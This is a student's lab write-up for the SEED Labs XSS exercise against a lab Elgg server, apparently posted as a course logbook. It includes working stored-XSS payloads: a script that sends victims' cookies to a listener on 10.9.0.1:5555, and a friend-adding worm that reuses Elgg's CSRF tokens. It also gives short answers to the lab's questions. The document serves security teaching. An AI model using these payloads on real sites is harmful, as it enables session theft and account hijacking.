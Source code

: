 # Seedlab Week #7 (Cross-Site Scripting XSS Attack Lab)

# Question 1

### Task 1: Posting a Malicious Message to Display an Alert Window

In this task, our goal was to embed a JavaScript program in the Elgg user profile.

Programm to insert:
```html
<script>alert('XSS');</script>
```

First, we logged in with the `alice` username and `seedalice` password. Then, we navigated to Alice's profile page at `http://www.seed-server.com/profile/alice`, clicked on `Edit profile`, selected the option to edit as HTML, pasted the JavaScript script into the `Brief description` field before and saved it.

As a result, any user who opened our profile page saw an alert window on the screen:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task1.png"/>
</p>


### Task 2: Posting a Malicious Message to Display Cookies

In this task, we aimed to show the user's cookies in an alert window.

Programm to insert:
```html
<script>alert(document.cookie);</script>
```

The solution was similar to the previous task: we inserted the script in the `Brief description` field of Alice's profile. Then, we logged in from another account (`boby` username and `seedboby` password).

When the `Members` page was opened, Alice's code executed, and we saw our cookies in the alert.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task2.png"/>
</p>

### Task 3: Stealing Cookies from the Victim’s Machine

In this task, our objective was to retrieve cookies from another user.

Programm to insert:
```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

This code sends the cookies to port 5555, so we needed to listen on this port by using the command `nc -lknv 5555` in our terminal. We placed the code in Alice's profile and then logged in with Boby's account.

The output from terminal:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task3.png"/>
</p>

Thus, when another user (Boby) opened the `Members` page, we received his cookies.

### Task 4: Becoming the Victim’s Friend

In this task, we needed to write an XSS worm that would automatically add Samy as a friend to anyone who opened Samy's page.

#### Analyse HTTP request.

First step was to find out how the HTTP request looks like, we used Firefox’s `Header Live` tool.

We opened the `Header Live` and logined as a Samy (`samy`, `seedsamy`) and opened Alice's profile and clicked on `Add friend`.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.1.png"/>
</p>

We inspected the first request to retrieve all the necessary information.

We discovered that it was a `GET` request with this url: `http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w`

<!-- Podem ver se vcs tambem tem 2 vezes o token e o ts -->
#### JS script 

Next, we modified our script to send a request to add a friend.

Final version would be:
```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;  /* (1) */
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token; /* (2) */
        
        //Construct the HTTP request to add Samy as a friend.
        var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
        
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

We constructed the `sendurl` variable based on the request URL, using Samy's friend ID (found as `"owner_guid":59` in the page HTML).

Finally, we placed this code in Samy's `About me` section (using `Edit HTML` to insert the code) and visited his profile page with a different account (Boby).

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.2.png"/>
</p>

As a result, simply by visiting Samy's page, he was added to Boby's friends.

#### Question 1

> Explain the purpose of Lines 1 and 2, why are they are needed?

After analyzing the request that is sent upon clicking the `Add Friend` button, we can see that a timestamp and a token are passed, in order for the request to be considered valid. Therefore, the purpose of both lines (1) and (2) is to obtain these values so that we can send them in our request, as they are expected by server. 
Without these lines, our XSS attack would be unable to perform authenticated actions (like adding friends).  
More specifically, the purpose of the lines is:
  * First line: adds timestamp security token.
  * Second line: adds CSRF token.

#### Question 2

> If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

To be able to launch the attack, we needed to add the `<script>` tag to the `About Me` section, so that when the website renders the tag, it executes the code contained withing the script.  
This exploit can only happen in the Text mode because any text that is written in Editor mode is escaped, leading to safer text that is rendered exactly as plaintext when shown again in the `About Me` section.  
This can be seen if we write `<script>alert('XSS');</script>` in visual editor, save and then analyze it has HTML, which would show the following: `<p>&lt;script&gt;alert('XSS');&lt;/script&gt;</p>`.
In conclusion, if the Elgg application only provided the Editor mode for the "About me" section, we could not launch this attack.

# Question 2

This XSS attack can be classified as **Stored XSS**.  
In this attack, we start by saving the malicious payload (the JavaScript script) in the database ("About Me" section of the user profile) of a legitimate source (the Elgg website). After this, any user that accesses this website and visits the user profile will execute this malicious script and trigger its effects (add the user as a friend). This XSS pattern fits the **Stored XSS** category and is very similar to the Samy Worm studied in class.
